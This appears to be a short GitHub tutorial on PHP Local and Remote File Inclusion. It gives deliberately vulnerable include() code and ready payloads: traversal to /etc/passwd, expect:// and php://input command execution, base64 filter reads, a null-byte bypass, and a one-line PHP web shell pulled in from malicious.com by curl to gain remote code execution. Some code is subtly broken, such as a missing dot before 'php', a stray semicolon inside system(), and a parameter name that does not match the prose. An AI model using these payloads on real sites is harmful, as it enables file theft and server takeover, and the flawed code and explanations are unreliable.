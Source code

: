 # LFI (Local File Inclusion)
This is a vulnerability tat allows an attacker to include files on a server through the webbrowser basically to read them, apart from the hosted web-root directory.

LFI is mostly caused when a developer is too lazy to write a secure code >.<

```php
<?php
	$file = $_GET['page'];
	if (isset($file)){
		include("pages/$file");
	} else {
		include("ingex.php");
	}
?>
```

That above is an example of a vulnerable LFI code.

### Identifying LFI vulnerabilities
Say you visit a website `http://example.com/index.php` and from the navigation bar you find `http://example.com/index.php?page=about.php`, An attacker can attempt to exploit this by trying LFI:

`http://example.com/index.php?page=about.php`
`http://example.com/index.php?page=../../../../../../../etc/passwd`

Where this will include the `/etc/passwd` file instead of `about.php`

### Wrappers (PHP)
Sometimes wrappers can be used in this case , but depends with if the wrapper you are to use is allowed or not.

***EXPECT***
This wrapper allows execution of system commands , unfortunately it is not enabled by default, it can be used as below:

`http://example.com/index.php?page=expect://ls`

And the output over here shall be the listing of the files inside the server from the pwd it was executed at

***INPUT***
This wrapper also allows system commands execution , it can be used as follows:

`curl -X POST "http://example.com/index.php?page=php://input&cmd=ls" -d <?php echo system($_GET['cmd'];);?>`

***FILTER***
Allows an attacker to include localfiles which are then encoded with base64 to be the output, thus an attacker will have to decode the base64 content to get the plain text content, here is an example:

`http://example.com/inedx.php?page=php://filter/convert.base64-encode/resource=/etc/passwd`

This will encode the `/etc/passwd` file in base64 then output it.

### Null Byte Technique Bypassing
Sometimes it is filtered thus you have to bypass the filter to be able to fully perform LFI , by this we can bypass the filters using Null byte injection bypasses where as we add URL encoded `NULL BYTES` such as `%00` , for example:

`http://example.com/index.php?page=/etc/passwd%00`

### LFI 2 RCE
There are plenty of ways to get RCE from LFI , among them is by performing Log poisoning where as you send a request with a shell snippet code and then access the log and add a parameter that will perform execution of system commands , and the other would be by poisoning mail logs , and as well as the `input` wrapper and the `expect` wrapper

# RFI (Remote File Inclusion)
This vulnerability is almost the same to LFI but this one is of course remote , so you can perform almost the same thing in LFI but by accessing a remote vendor saying the code is :

```php
<?php
	$file = $_REQUEST['file'];
	if (isset($file)){
		include($file.'php');
	} else {
		include('index.php');
	}
?>
```

This is just an example of what the code looks like , so basically what it does it just takes the `?page=` parameter with a page like `about` without the `.php` at the end and then it outputs it, so we can take advantage of this by hosting a malicious script from our server `malicious.com` and then host the malicious php webshell from it and then request it from the website that is vulnerable without the extension, the malicious script would in this case be:

```php
<?=`$_POST[0]`?>
```

Where it is taking the data `0` and then executing it with system command then outputing the result so we can host it and access it to the targetted site with curl simple by writing:

```bash
curl -X POST "http://example.com/index.php?page=http://malicious.com/evil" -d "0=ls"
```

We didn't write `evil.php` because it will say not found since it will be called as `evil.php.php` , instead I just wrote `evil` where it will then be called `evil.php`.

From there I can definitely get RCE

**By tahaafarooq**
